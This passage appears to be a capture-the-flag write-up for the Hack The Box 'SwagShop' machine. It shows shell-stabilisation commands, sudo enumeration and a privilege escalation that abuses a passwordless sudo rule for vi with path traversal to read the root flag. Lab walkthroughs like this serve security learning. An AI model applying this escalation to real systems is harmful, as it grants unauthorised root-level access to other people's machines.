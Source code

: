 It's difficult to show because the terminal gets cleared, but the steps
are:

1.  `python -c 'import pty;pty.spawn("/bin/bash")'`. `python3` works as
    well.
2.  Ctrl-z to background shell. At local prompt, `stty raw -echo`.
3.  `fg` to bring shell back to front.
4.  `reset` to reinitialize the terminal. If prompted for Terminal type,
    enter `screen`.
5.  In reset shell, `export TERM=screen`.

I can also use `stty -a` on my local shell to see the rows and columns.
Then I can set it for the remote shell by running
`stty rows [#rows] columns [#columns]`. This will allow things like `vi`
or `less` to use the full screen.

### Enumeration

`sudo -l` shows I can run `sudo` with no password on `vi` in the web
dir:



    www-data@swagshop:/home/haris$ sudo -l
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on swagshop:
        (root) NOPASSWD: /usr/bin/vi /var/www.md/*



### Read Flag

The fastest path to the flag is just to open it with `vi`. Based on the
`sudo` output above, I'll run:



    www-data@swagshop:/$ sudo /usr/bin/vi /var/www.md/../../../root/root.txt





    c2b087d6...

       ___ ___
     /| |/|\| |\
    /_| ´ |.` |_\           We are open! (Almost)
      |   |.  |
      |   |.  |         Join the beta HTB Swag Store!
      |___|.__|       https://hackthebox.store/password

                       PS: Use root flag as password!
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    "/var/www.md/../../../root/root.txt" 10L, 270C